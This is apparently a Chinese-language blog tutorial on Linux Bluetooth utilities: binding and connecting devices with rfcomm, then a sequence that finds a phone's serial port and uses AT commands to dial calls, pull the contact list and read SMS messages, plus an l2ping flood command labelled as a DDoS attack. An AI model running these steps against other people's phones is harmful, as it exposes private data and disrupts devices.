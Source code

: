 * 连接设备

运行rfcomm --help 可以查看用法

首先需要绑定目的蓝牙设备：

{% highlight shell %}

    sudo rfcomm bind /dev/rfcomm0 E0:A6:70:8C:xx:xx

{% endhighlight %}

注意：上面的这个地址是目的蓝牙设备的硬件地址

接着我们连接它：

{% highlight shell %}

    sudo cat >/dev/rfcomm0

{% endhighlight %}

这是目的蓝牙主机就会弹出一个对话框要求输入pin码，然后主机就会弹出一个对话框，只要输入的和刚才一致就可以通过验证。之后我们发现我的手机已经显示了成功配对的标记了。

* 断开连接

删除绑定（否则在下次使用时会提示设备正忙），命令如下：

{% highlight shell %}

    sudo rfcomm release /dev/rfcomm0

{% endhighlight %}

### 查看蓝牙设备是否开放串口

{% highlight shell %}

1. hcitool scan 
2. l2ping MAC addr.
3. sdptool browse MAC addr. | grep -i "Serial Port0"

     记录serial port服务的channel

4. vim /etc/bluetooth/rfcomm.conf

        rfcomm0 {
            bind no;
            device MAC addr.;
            channel 10;
            comment "xxxxxx";

        }
5. rfcomm bind /dev/rfcomm0 MAC addr.
6. minicom -m -s     /dev/rfcomm0

7. minicom -m
8. atdt phone no.拨打电话
9.  at+cpbr=1,100 获得手机通讯录
10. at+cmgl 获得短信

{% endhighlight %}

### l2ping的DDOS

>早期的攻击方式： 向目标主机发送大量畸形的ICMP数据包的方式，使得目标计算机忙于响 应从而达到资源耗尽死机的目的

{% highlight shell %}

  l2ping -f MAC addr.s

{% endhighlight %}
